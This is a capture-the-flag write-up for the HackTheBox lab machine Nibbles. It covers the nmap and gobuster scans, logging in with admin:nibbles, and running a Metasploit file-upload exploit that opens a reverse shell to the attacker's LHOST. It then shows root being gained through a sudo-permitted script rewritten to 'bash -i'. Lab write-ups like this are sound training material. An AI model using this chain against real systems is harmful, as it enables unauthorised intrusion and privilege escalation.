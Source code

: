 ```yaml
---
title: 'HackTheBox - Nibbles'
date: '2021-10-12 12:00:00 +0000'
categories: [HTB, easy]
tags: [hackthebox, easy]     # TAG names should always be lowercase
comments: true
mermaid: true
image:
  src: /assets/img/nibbles/nibbles.png
  width: 1000   # in pixels
  height: 400   # in pixels
  alt: Legacy box logo icon
---
```


First we run an nmap scan - ```nmap -T4 -p- -A 10.10.10.75```. ```-T4``` specifies the speed at which we run the scan, the ```-p-``` option scans all 65535 ports, and the ```-A``` enables OS detection, version detection, script scanning, and traceroute.

We see two ports open, ```22```(ssh) and port ```80```(http). We also get some information disclosure - ```Apache httpd 2.4.18```.

![nmap-scan-results](/assets/img/nibbles/nibbles-nmap-1.png)

We navigate to "http://10.10.10.75/" in  a browser. We see a web page with "Hello world!". We take a look at the page source and see a comment pointing to a directory ```<!-- /nibbleblog/ directory. Nothing interesting here! -->```

![msfconsole-smb_version-module](/assets/img/nibbles/page-source-2.png)

We navigate to "http://10.10.10.75/nibbleblog/" in the url and see a nibbleblog website.

![smb_version-options](/assets/img/nibbles/nibbles-blog-3.png)

We are going to see if we can find an exploit for nibbles with Searchsploit. We run ```searchsploit nibble``` in a terminal which returns two results. The remote code execution exploit looks promising.
```Arbitrary File Upload (Metasploit)  | php/remote/38489.rb```

![smb_version](/assets/img/nibbles/searchsploit-4.png)

We fire up Metasploit and search for the exploit we saw with Searchsploit. There's only one result and this is the one we want to run - ```use exploit/multi/http/nibbleblog_file_upload```

![rapid7- options](/assets/img/nibbles/use-ex-5.png)

We run info and get a description of the exploit -

Description:
  Nibbleblog contains a flaw that allows an authenticated remote 
  attacker to execute arbitrary PHP code. This module was tested on 
  version 4.0.3.

![rapid7- options](/assets/img/nibbles/description-6.png)


 This means that for the exploit to work you need to be an authenticated user. So we need to locate the admin login panel and gain access. Let's run a directory buster with ```gobuster - dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .php``` to locate the admin login page.

 ![use-exploit](/assets/img/nibbles/gobuster-7.png)

 From gobuster we see a directory called ```/admin.php```. That's the login page we want to navigate to - "http://10.10.10.75/nibbleblog/admin.php". Login with these credentials - admin: nibbles

 ![use-exploit](/assets/img/nibbles/nibble-admin-8.png)

 From inside the admin panel,  we select "Settings". Scrolling down to the bottom of the page we see a nibbles version - Nibbleblog 4.0.3 "Coffee". This is a find, this means the exploit we found is suitable for this version of nibble.

![use-exploit](/assets/img/nibbles/nibble-version-9.png)

Back in ```msfconsole``` we set the options of the exploit we chose. ```set password nibbles``` , ```set username admin``` , ```set RHOSTS 10.10.10.75``` , ```set TARGETURI /nibbleblog``` , be sure to ```set LHOST 10.10.16.5```, and
```run``` the exploit.

![use-exploit](/assets/img/nibbles/set-options-10.png)

We've got ourselves a shell, however we ```getuid``` and see we're a low level user. We're going to need to perform some privilege escalation. But whilst we're here we ```cd /home/nibbler``` and ```cat user.txt``` to get our user flag.

![use-exploit](/assets/img/nibbles/getuid-11.png)

![use-exploit](/assets/img/nibbles/user-txt-11.png)

From here we switch to a ```shell``` session. And type ```sudo -l```. The output shows us how we can run commands as ```su```. We ```cd /home/nibbler``` then ```mkdir personal``` then ```cd personal``` then ```mkdir stuff``` and ```cd stuff```.
Now we ```echo "bash -i" > monitor.sh```.

![use-exploit](/assets/img/nibbles/mkdir-12.png)

To run the bash file we need to change it's permissions with ```chmod +x monitor.sh```. Then we run ```sudo ./monitor.sh```.
And like that, we have root! The machine has been owned.

![use-exploit](/assets/img/nibbles/chmod-root-13.png)

To fully own the system ```cd .../.../.../.../root``` and ```cat root.txt``` to find the flag and fully own it!

![use-exploit](/assets/img/nibbles/root-flag-14.png)









